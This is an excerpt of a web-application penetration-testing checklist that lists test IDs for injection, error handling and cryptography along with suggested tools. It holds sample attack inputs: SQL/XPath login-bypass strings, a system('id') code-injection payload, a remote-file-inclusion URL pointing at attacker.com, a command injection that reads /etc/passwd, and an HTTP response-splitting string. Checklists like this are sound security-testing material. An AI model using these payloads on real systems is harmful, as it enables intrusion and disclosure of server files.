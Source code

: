 - [ ]  -INPVAL-010	Testing for XPath Injection	"Check for XML error enumeration by supplying a single quote (')
Username: ‘ or ‘1’ = ‘1
Password: ‘ or ‘1’ = ‘1"	Burp Proxy, ZAP
- [ ]  -INPVAL-011	IMAP/SMTP Injection	"• Identifying vulnerable parameters with special characters
(i.e.: \, ‘, “, @, #, !, |)
• Understanding the data flow and deployment structure of the client
• IMAP/SMTP command injection (Header, Body, Footer)"	Burp Proxy, ZAP
- [ ]  -INPVAL-012	Testing for Code Injection	"Enter OS commands in the input field.
?arg=1; system('id')"	Burp Proxy, ZAP, Liffy, Panoptic
	Testing for Local File Inclusion	LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource)	Burp Proxy, fimap, Liffy
	Testing for Remote File Inclusion	"RFI from malicious URL
?page.php?file=http://attacker.com/malicious_page"	Burp Proxy, fimap, Liffy
- [ ]  -INPVAL-013	Testing for Command Injection	"Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server.
%3Bcat%20/etc/passwd
test.pdf+|+Dir C:\"	Burp Proxy, ZAP, Commix
- [ ]  -INPVAL-014	Testing for Buffer overflow	"• Testing for heap overflow vulnerability
• Testing for stack overflow vulnerability
• Testing for format string vulnerability"	Immunity Canvas, Spike, MSF, Nessus
	Testing for Heap overflow		
	Testing for Stack overflow		
	Testing for Format string		
- [ ]  -INPVAL-015	Testing for incubated vulnerabilities	File Upload, Stored XSS , SQL/XPATH Injection, Misconfigured servers (Tomcat, Plesk, Cpanel)	Burp Proxy, BeEF, MSF
- [ ]  -INPVAL-016	Testing for HTTP Splitting/Smuggling	param=foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>	Burp Proxy, ZAP, netcat
			
Error Handling	Test Name	Description	Tools
- [ ]  -ERR-001	Analysis of Error Codes	Locate error codes generated from applications or web servers. Collect sensitive information from that errors (Web Server, Application Server, Database)	Burp Proxy, ZAP
- [ ]  -ERR-002	Analysis of Stack Traces	"• Invalid Input / Empty inputs
• Input that contains non alphanumeric characters or query syn
tax
• Access to internal pages without authentication
• Bypassing application flow"	Burp Proxy, ZAP
			
Cryptography	Test Name	Description	Tools
- [ ]  -CRYPST-001	Testing for Weak SSL/TSL Ciphers, Insufficient Transport Layer Protection	Identify SSL service, Idectify weak ciphers/protocols (ie. RC4, BEAST, CRIME, POODLE)	testssl.sh, SSL Breacher
- [ ]  -CRYPST-002	Testing for Padding Oracle	"Compare the responses in three different states:
• Cipher text gets decrypted, resulting data is correct.
• Cipher text gets decrypted, resulting data is garbled and causes
some exception or error handling in the application logic.
• Cipher text decryption fails due to padding errors."	PadBuster, Poracle, python-paddingoracle, POET
- [ ]  -CRYPST-003	Testing for Sensitive information sent via unencrypted channels	"Check sensitive data during the transmission:
• Information used in authentication (e.g. Credentials, PINs, Session
identifiers, Tokens, Cookies…)
• Information protected by laws, regulations or specific organizational
policy (e.g. Credit Cards, Customers data)"	Burp Proxy, ZAP, Curl
			